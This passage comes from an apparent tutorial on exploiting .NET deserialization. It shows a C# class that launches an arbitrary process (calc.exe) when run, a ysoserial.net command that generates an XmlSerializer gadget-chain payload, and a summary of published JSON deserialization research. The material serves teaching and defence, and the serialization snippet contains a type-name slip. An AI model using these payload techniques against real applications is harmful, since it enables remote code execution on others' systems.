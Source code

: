 ```csharp
 [Serializable]
public class RCE
{
    private String _cmd = "calc.exe";
    public String cmd
    {
        get { return _cmd;  }
        set { _cmd = value; }
    }

    public void Run()
    {
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = _cmd;
        p.Start();
        p.Dispose();
    }
}

public static void xmlRCESerial(string filename) 
{
    // Create desert name
    var rce = new RCE();
    // Persist to file
    TextWriter writer = new StreamWriter(filename + ".xml");
    XmlSerializer serializer = new XmlSerializer(typeof(Desert));
    Console.WriteLine("Serializing desert (!?)");
    serializer.Serialize(writer, rce);
    writer.Close();
} 
```

However, it is possible to exploit this function chaining POP gadgets. To generate a valid payload, in this case, we can use `ysoserial.net`:

```bash
$ ysoserial-net -g ObjectDataProvider -f XmlSerializer -c "calc" -o raw
```

**JSON**

In their research, [Firday the 13th, JSON Attacks](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf), Alvaro Muñoz and Oleksandr Mirosh explained how it was possible to apply similar methods seen for JAVA JSON deserialization to exploit .NET JSON deserialization. The research is extremely accurate, and points out a list of libraries affected by this vulnerability. As such, I won't cover in details every library, but focus more on explaining that no concrete difference exists between JSON and XML/Binary deserialization in terms of exploitation.

The research states that, in order to successfully exploit JSON deserialization, the following conditions must be satisfied:

1. Attacker can control type of reconstructed objects [Same as binary/xml]
    * Can specify Type
        + _type, $type, class, classname, javaClass, ..., etc.
    * Library loads and instantiate Type
2. Library/GC will call methods on reconstructed objects [Setter/Getter/Constructors/Destructors, same as for binary/xml]
3. There are gadget chains starting on method executed upon/after reconstruction [Visibility constraint, same as for binary/xml]
